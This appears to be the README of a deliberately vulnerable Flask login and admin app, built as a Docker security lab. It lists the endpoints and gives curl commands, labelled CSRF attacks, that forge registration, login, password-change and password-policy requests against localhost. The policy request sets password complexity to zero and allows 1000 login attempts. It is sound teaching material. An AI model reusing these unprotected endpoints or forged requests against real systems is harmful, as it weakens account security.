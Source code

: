 # Safe Register & Login Administration

__Unsafe mode for Demonstration.__

Build with:

__BACKEND:__ _Python 3.9 & Flask_

__FRONTEND:__ _JS, HTML & CSS_

__INTEGRATIONS:__ _Jinja2_

Deployed over Docker, inorder to contain a safety lab environment

## Endpoints

**Home**

**User**

* Registration
* Login
* Change Password
* Logout

**Admin**

* Admin's Menu
    * View all Users List
    * Change Password Configuration

## Home

endpoint: `/`\
![Home](https://user-images.githubusercontent.com/71320956/128612948-87c16955-b0cb-451b-95ac-9ef09cde5ca4.PNG)


## User

### Register

User Register by given _Name_, _E-mail_, _Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/register`
![Register](https://user-images.githubusercontent.com/71320956/128612974-48a73d9a-335d-43ee-85d8-12c54adee72f.PNG)

__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=AAaa1212@!12' -F 're_password=AAaa1212@!12' 
http://127.0.0.1:5000/users/register
````
\
__Result of attack:__\
![HackerRegistrationDB](https://user-images.githubusercontent.com/71320956/128612992-0c331aad-93c2-46d2-97a6-5ffe32c645da.PNG)


### Login

User Login by given _Name\Email_ and _Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/login`

![Login](https://user-images.githubusercontent.com/71320956/128613001-3d4da68d-239e-4a2c-9cb8-8ac8b78ef9a1.PNG)
__CSRF attack on endpoint:__
````
$ curl -X POST -F 'name_email=Hacker' -F'password=AAaa1212@!12' 
http://127.0.0.1:5000/users/login
````
__Result of attack:__\
![HackerLogin](https://user-images.githubusercontent.com/71320956/128613003-aa2d78aa-4a79-451f-84d6-a0a72b0169df.PNG)

### Change Password

User Change Password by given _Username_, _E-mail_, _New Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/change_password`

![ChangePassword](https://user-images.githubusercontent.com/71320956/128613009-17531174-2d74-4d45-a03c-2272917365bc.PNG)
__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=BBbb1212@!12' -F 're_password=BBbb1212@!12' 
http://127.0.0.1:5000/users/change_password
````
__Result of attack:__\
![HackerChangePassword](https://user-images.githubusercontent.com/71320956/128613015-03a99a41-9c0f-45a7-9a0f-826468d10328.PNG)


### Logout

User Logout

__methods:__ `GET`\
__endpoint:__ `/users/logout`
![AfterUserLogin](https://user-images.githubusercontent.com/71320956/128613030-143e994e-e4ed-4eb4-b8b5-2d9aa5479443.PNG)

## Admin

### Admin's Menu

__methods:__ `GET`\
__endpoint:__ `/admin/menu`

![AdminMenu](https://user-images.githubusercontent.com/71320956/128613037-286c71ef-8872-4de2-9754-b1c94eddbb96.PNG)

### User's List

Display all registered users & __Block/Unblock__ users

__methods:__ `GET`\
__endpoint:__ `/admin/all_users`

![UsersList](https://user-images.githubusercontent.com/71320956/128613054-b72342c5-5f27-47d0-b48d-fe734f4b6339.PNG)

### Password Configuration

Change password configuration:

* Length
* Complexity
* History
* Fail attempts

__methods:__ `GET`, `POST`\
__endpoint:__ `/admin/password_config`

![PasswordConfiguration](https://user-images.githubusercontent.com/71320956/128613057-39b79463-7f29-4bdc-bc55-f6d82e6c8a24.PNG)

__CSRF attack on endpoint:__
````
$ curl -X POST -F 'upper=0' -F 'lower=0' -F 'digits=0' 
-F 'spec=0' -F 'use_dict=0' -F 'length=0' -F 'history=10' 
-F 'tries=1000'  http://127.0.0.1:5000/admin/password_config
````

